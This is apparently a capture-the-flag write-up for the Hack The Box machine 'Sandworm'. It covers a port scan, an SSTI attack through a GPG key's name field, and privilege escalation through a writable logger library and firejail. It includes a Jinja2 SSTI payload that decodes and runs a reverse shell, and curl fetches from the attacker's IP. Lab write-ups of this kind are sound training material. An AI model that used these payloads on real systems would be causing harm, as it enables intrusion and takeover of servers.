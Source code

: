 ```yaml
---
description: https://app.hackthebox.com/machines/Sandworm
---
```


# Sandworm

> from hackthebox

![image](https://user-images.githubusercontent.com/56447720/247915265-ab265e9a-b810-4d69-8b66-cd6f2ec5092e.png)

## Port scan

```bash

PORT     STATE SERVICE   REASON  VERSION
22/tcp   open  ssh       syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp   open  http      syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp  open  ssl/http  syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA/emailAddress=atlas@ssa.htb/organizationalUnitName=SSA/localityName=Classified
| Issuer: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA/emailAddress=atlas@ssa.htb/organizationalUnitName=SSA/localityName=Classified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-04T18:03:25
| Not valid after:  2050-09-19T18:03:25
| MD5:   b8b7:487e:f3e2:14a4:999e:f842:0141:59a1
| SHA-1: 80d9:2367:8d7b:43b2:526d:5d61:00bd:66e9:48dd:c223
| -----BEGIN CERTIFICATE-----
| MIIDpTCCAo0CFBEpfzxeoSRi0SkjUE4hvTDcELATMA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJTQTETMBEGA1UECAwKQ2xhc3NpZmllZDETMBEGA1UEBwwKQ2xh
| c3NpZmllZDEaMBgGA1UECgwRU2VjcmV0IFNweSBBZ2VuY3kxDDAKBgNVBAsMA1NT
| QTEMMAoGA1UEAwwDU1NBMRwwGgYJKoZIhvcNAQkBFg1hdGxhc0Bzc2EuaHRiMCAX
| DTIzMDUwNDE4MDMyNVoYDzIwNTAwOTE5MTgwMzI1WjCBjTELMAkGA1UEBhMCU0Ex
| EzARBgNVBAgMCkNsYXNzaWZpZWQxEzARBgNVBAcMCkNsYXNzaWZpZWQxGjAYBgNV
| BAoMEVNlY3JldCBTcHkgQWdlbmN5MQwwCgYDVQQLDANTU0ExDDAKBgNVBAMMA1NT
| QTEcMBoGCSqGSIb3DQEJARYNYXRsYXNAc3NhLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAKLTqQshN1xki+1sSRa6Yk5hlNYWroPyrVhm+FuKMpNL
| cjW9pyNOV/wvSdCRuk/s3hjqkIf12fljPi4y5IhqfcpTk+dESPGTiXdrE7oxcWHn
| jQvE01MaT9MxtIwGiRBupuFvb2vIC2SxKkKR28k/Y83AoJIX72lbeHJ9GlNlafNp
| OABrIijyFzBou6JFbLZkL6vvKLZdSjGy7z7NKLH3EHTBq6iSocSdxWPXtsR0ifeh
| hODGT2L7oe3OWRvClYTM3dxjIGC64MnP5KumamJoClL2+bSyiQzFJXbvcpGROgTU
| 01I6Qxcr1E5Z0KH8IbgbREmPJajIIWbsuI3qLbsKSFMCAwEAATANBgkqhkiG9w0B
| AQsFAAOCAQEAdI3dDCNz77/xf7aGG26x06slMCPqq/J0Gbhvy+YH4Gz9nIp0FFb/
| E8abhRkUIUr1i9eIL0gAubQdQ6ccGTTuqpwE+DwUh58C5/Tjbj/fSa0MJ3562uyb
| c0CElo94S8wRKW0Mds0bUFqF8+n2shuynReFfBhXKTb8/Ho/2T2fflK94JaqCbzM
| owSKHx8aMbUdNp9Fuld5+Fc88u10ZzIrRl9J5RAeR5ScxQ4RNGTdBVYClk214Pzl
| IiyRHacJOxJAUX6EgcMZnLBLgJ1R4u7ZvU3I3BiaENCxvV6ITi61IwusjVCazRf3
| NNn7kmk7cfgQqPCvmwtVrItRHxWEWnkNuQ==
|_-----END CERTIFICATE-----
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Secret Spy Agency | Secret Security Service
8000/tcp open  http-alt? syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* There was no intresting directories to further investigate.

## Foothold

* After further enumeration, the best page to further pwn was `/guide`
* here, we can verify the pgp signature with our public key.

![image](https://user-images.githubusercontent.com/56447720/250083559-9fb7532f-0c39-453e-afa3-3def58556ca9.png)

* now we create our own public key and signature to verify it here.

<details>

<summary>What is gpg? How to create a key? (Detailed)</summary>

**Step 1: Install GnuPG**

GnuPG (GPG) is a widely-used implementation of PGP for Linux. It provides the tools necessary for generating and managing PGP keys, as well as signing and encrypting messages. Installing GnuPG ensures that you have the required software to work with PGP.

* You can install GnuPG by running the following command in your terminal:

```bash
sudo apt-get install gnupg
```

**Step 2: Generate a key pair**

A key pair consists of a public key and a private key. The public key can be freely distributed to others, while the private key should be kept secret and protected. When someone wants to send you an encrypted message or verify your signature, they use your public key.

* To generate a key pair, use the following command:

```bash
gpg --gen-key
```

This command will start an interactive process to guide you through key generation. You will be prompted to provide your name, email address, and a passphrase to protect your private key. Your name and email address are used to associate the key with your identity.

**Step 3: Find your key ID**

Each key pair has a unique identifier called a key ID. The key ID is used to identify your public key and distinguish it from others. It's important to know your key ID when sharing your public key with others or when referencing your key in commands or configurations.

* To list your generated keys and find your key ID, run the following command:

```bash
gpg --list-keys
```

* It will look like this :

<img src="https://user-images.githubusercontent.com/56447720/250085690-e23a21c3-95e5-4079-b12e-9a46cce7d2c3.png" alt="image" data-size="original">

**Step 4: Sign a message**

Signing a message involves using your private key to generate a digital signature that verifies the authenticity and integrity of the message. When you sign a message, recipients can use your public key to verify that the message was indeed signed by you and has not been tampered with.

To sign a message using your private key, you need the message text saved in a file. Let's assume the message is stored in a file called message.txt.

* Use the following command to sign the message:

```bash
gpg --clearsign --output signature.asc --local-user <your-key-ID> message.txt
```

Replace with your actual key ID. This command will generate a signed version of the message in ASCII-armored format and save it in a file called signed\_message.asc. The ASCII-armored format allows the signed message to be easily shared via email or other text-based communication methods.

That's it! You've now created a PGP key pair, found your key ID, and signed a message using your private key. Remember to keep your private key secure and protected, as it is the key to verifying your identity and signing messages.

</details>

<details>

<summary>TLDR; (Short version of key creation)</summary>

```bash

# Install GnuPG
sudo apt-get install gnupg

# Generate a key pair
gpg --gen-key

# List keys and find your key ID
gpg --list-keys

# Sign a message using your private key
gpg --clearsign --output signature.asc --local-user <your-key-ID> message.txt

# Print your public key
gpg --export --armor <your-key-ID>

```

* Your key would look like this :

<img src="https://user-images.githubusercontent.com/56447720/250085690-e23a21c3-95e5-4079-b12e-9a46cce7d2c3.png" alt="image" data-size="original">

</details>

## Finding web vuln

* After we create our signature and public key, let's check it out on the website.

![image](https://user-images.githubusercontent.com/56447720/250088309-0f8b1783-f2a3-415d-9c31-67ff84a50b61.png)

* We can see that our name is echo(ed) out. Maybe a SSTI Vulnerability.
* We have to manipulate the name parameter. Let's edit our key.

### Exploitation

* Enter the following command :

```bash
gpg --edit-key 6941D2162010EED2C <--REDACTED--> # YOUR KEY

```

* To select the uid: (Enter the number that is along with your key)

![image](https://user-images.githubusercontent.com/56447720/250091351-d5cd13d5-f51d-40ec-8658-5e8925ca538d.png)

* A `*` will appear once it's selected
* Creating payload :

![image](https://user-images.githubusercontent.com/56447720/250091622-f8b21421-239c-44d7-9e87-c8484b9e1e60.png)

> The blue line denotes the command, the yellow denotes the payload.

* Create a signed message :

```bash
gpg --clearsign --output signature.asc --local-user <your key> message.txt
```

* Export public key

```bash
 gpg --export --armor <your key> > heapbytes.pub   
```

**SSTI**

* We can confirm that SSTI can be expoitated here.

![image](https://user-images.githubusercontent.com/56447720/250092457-ae1bf828-1fd9-4b21-824d-925fd51046fd.png)

* Repeat the steps with your own payload
* The one I used was :

```bash
 
#create rev shell payload from https://revshells.com
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo " <replace your base64 encoded rev shell payload>" | base64 -d | bash').read() }}

```

![image](https://user-images.githubusercontent.com/56447720/250096559-c01598ff-11b1-4c34-92db-d073cd2f7f94.png)

* And we got the shell

## User shell

* After a few while, I found an intresting file which had the password of the user.
* `~/.config/httpie/sessions/localhost_5000/admin.json`

### **SSH with the creds**

![image](https://user-images.githubusercontent.com/56447720/250097981-7ce5d2f6-7e60-471b-ad7a-dfca971650fb.png)

* DONE

### Privilage Escalation (2)

![image](https://user-images.githubusercontent.com/56447720/250100000-4f27fb4b-9b01-42bd-9165-d53371a2f948.png)

* Source code of the running application

![image](https://user-images.githubusercontent.com/56447720/250110738-59d87655-de3a-4817-95af-168d93b84068.png)

* It's using a logger library, and fortunately we have access to write down into that library.
* Path of the logger library :

![image](https://user-images.githubusercontent.com/56447720/250111049-b18ec1af-8dd0-4e58-a7d0-a05ee149c440.png)

* Let's edit the library code

![image](https://user-images.githubusercontent.com/56447720/250115668-4a4405fd-a2ac-4586-88ff-e2023e9dcfb9.png)

* Wait for few minutes (less than 2 mintues) to get the shell.

## Privilage Escalation (root)

![image](https://user-images.githubusercontent.com/56447720/250120305-02088181-5fb7-4d12-9f57-766f0a07d683.png)

* We are going to use this script to get root
  * https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25
* We can add our `ssh keys` into the remote machine for better shell experience.
* Create your own key with :

```bash
  
ssh-keygen -t rsa -b 4096 -C "your_mail@domain"
```

* Copy the `~/.ssh/id_rsa.pub` into remote machine under `/.ssh/`
  * I used curl to download the file since vim was not working properly (maybe stablize shell and resume)
  * `curl <your-ip>/id_rsa.pub ~/.ssh/authorized_keys`
  * `chmod 700 ~/.ssh`
  * `chmod 600 ~/.ssh/authorized_keys`
* boom, we just need to ssh now and run the script, I used curl agian to copy the script from my local machine to the remote machine.

![image](https://user-images.githubusercontent.com/56447720/250175917-4227a8a7-1386-4b8b-9a4d-0c51257bf4e7.png)

* Run the `firejail --join=<id>` command as prompted into another ssh shell.
* now run `su -` or `su` for the root shell.

![image](https://user-images.githubusercontent.com/56447720/250175791-35740f32-c6e5-4aa9-a0b0-842104938dea.png)

\_\_\_\_\_\_\_\_\_\_heapbyte's still pwning.
